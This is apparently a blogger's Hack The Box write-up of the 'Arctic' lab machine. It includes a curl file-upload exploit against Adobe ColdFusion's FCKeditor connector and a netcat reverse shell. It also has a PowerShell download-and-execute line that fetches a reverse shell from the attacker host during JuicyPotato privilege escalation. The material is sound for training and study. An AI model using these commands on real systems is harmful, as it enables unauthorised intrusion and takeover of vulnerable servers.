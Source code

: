 ```yaml
---
layout: post
title: HTB-ARCTIC(10.10.10.11)
---
```


**Note: I solved these machines when I started my career. Recently I was checking my old study materials and found this all so I am posting it as it is how I wrote earlier**

**Short brief what I did: I scanned the machine and checked for available ports and found few ports open, later further recon i found some interesting files which was the connecting steps to gain root. Enjoy! Happy Hacking!!**

    nmap -sC -sV -T4 -Pn -p- -A -oA nmap/arctic 10.10.10.11

**Output**  

    PORT      STATE SERVICE VERSION
    135/tcp   open  msrpc   Microsoft Windows RPC
    8500/tcp  open  fmtp?
    49154/tcp open  msrpc   Microsoft Windows RPC

Let’s check in the browser – 10.10.10.11:8500

Found some index files

Going inside administrator got a login page – adobe coldfusion 

So, let’s search for vuln or exploit.

    searchsploit adobe coldfusion

Found many file, so let’s choose directory travasel file – 14641.py

Found a directory where the password of administrator was stored in hash.

So I used crackstation – password – happyday

So immediately logged in with this cred

After logging I was not able to find anything…

So later I googled about adobe coldfusion exploit found 2 exploits…first directory traversal and another is RCE….

So, in the RCE it was instructing to create a msfvenom payload and upload to directory.

Following some writeup…uploaded to directory…but the file was not showing in the browser.

***
    This was the reason [it makes two HTTP requests. First is a POST to FCKEDITOR_DIR,
    which has a default value of /CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm
    defined earlier in the script. Then it does a GET to /userfiles/file/ to trigger the payload.]

      curl -X POST -F newfile=@shell.jsp   'http://10.10.10.11:8500/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/shell.jsp%00'

                <script type="text/javascript">
                        window.parent.OnUploadCompleted( 202, "", "shell.jsp", "0" );
                </script>
                                                                                                                                                             
┌──(root💀kali)-[~/HTB/arctic]

***

There are two things I need to set to get this upload to work, and both are set in the MSF exploit.
First, I can’t have the filename end in jsp. That will be filtered out. 
The MSF script uses .txt, so I’ll mimic that by making a copy of my payload named shell.txt.
The MSF script also sets the Content-Type on the file to application/x-java-archive.

I’ll update the curl. I can adjust headers inside the form data by adding it inside the -F argument separated by ;:

    curl -X POST -F "newfile=@shell.jsp;type=application/x-java-archive;filename=shell.txt" 'http://10.10.10.11:8500/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/df.jsp%00'

Warning: Binary output can mess up your terminal. Use "--output -" to tell 
Warning: curl to output it to your terminal anyway, or consider "--output 
Warning: <FILE>" to save to a file.

Here my file got uploaded and as I browsed …got my file…

Opened listener – nc –lvvp 4444  (as per my msfvenom payload)

In the browser clicked the file…and got the connection back…
Got user flag…

**Priv escalation**

As I saw SeImpersonate enabled…I quickly ran for juicy potato(Local Privilege Escalation tool, from a Windows Service Accounts to NT AUTHORITY\SYSTEM)
So here are my required files for juicypotato
1.shell.bat
2.shell.ps1
3.juicypotato.exe

    ls

JuicyPotato.exe shell.bat shell.ps1 

cat shell.bat
    
    powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.4/shell.ps1')
    
shell.ps1 is a file from nishang shell – invokepowershellreversetcp.ps1 – here I will add my ip and port number

Now let’s run juicypotato

    Directory of c:\Users\tolis\Downloads
    
    04/02/2022  04:39 ��    <DIR>          .
    04/02/2022  04:39 ��    <DIR>          ..
    04/02/2022  04:18 ��           347.648 jp.exe
    04/02/2022  04:39 ��                94 shell.bat
                   2 File(s)        347.742 bytes
                   2 Dir(s)   1.433.468.928 bytes free
    
    c:\Users\tolis\Downloads>jp.exe -l 1223 -p shell.bat -t *
    jp.exe -l 1223 -p shell.bat -t *
    Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1223
    ....
    [+] authresult 0
    {4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM
    
    [+] CreateProcessWithTokenW OK
    
        python -m SimpleHTTPServer 80                                                                                                                
    Serving HTTP on 0.0.0.0 port 80 ...
    10.10.10.11 - - [03/Feb/2022 10:31:55] "GET /shell.ps1 HTTP/1.1" 200 -
    
        nc -lvvp 1223      
    Ncat: Version 7.92 ( https://nmap.org/ncat )
    Ncat: Listening on :::1223
    Ncat: Listening on 0.0.0.0:1223
    Ncat: Connection from 10.10.10.11.
    Ncat: Connection from 10.10.10.11:49983.
    Windows PowerShell running as user ARCTIC$ on ARCTIC
    Copyright (C) 2015 Microsoft Corporation. All rights reserved.
    
    PS C:\Windows\system32>whoami
    nt authority\system

**Thank you for reading this article, If you have learned something from this(atleast 10% of this) i will be more happy.**


